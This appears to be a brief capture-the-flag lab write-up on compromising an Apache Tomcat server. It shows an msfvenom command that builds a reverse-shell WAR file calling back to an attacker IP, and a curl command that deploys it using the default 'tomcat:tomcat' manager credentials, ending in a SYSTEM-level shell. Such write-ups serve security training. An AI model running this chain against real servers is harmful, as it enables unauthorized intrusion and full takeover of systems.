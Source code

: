  Found a link for Apache tomcat pentesting https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/ 
- Generated a reverse shell .war file using MSFVenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORt=443 -f war > shell.war
```
- Uploaded the .war file 
```bash
curl --upload-file shell.war -u 'tomcat:tomcat' "http://10.10.10.95:8080/manager/text/deploy?path=/shell"
```
- Navigated to http://10.10.10.95:8080/shell/
- Got reverse shell as user `nt authority\system`

We already got shell as `nt authority\system`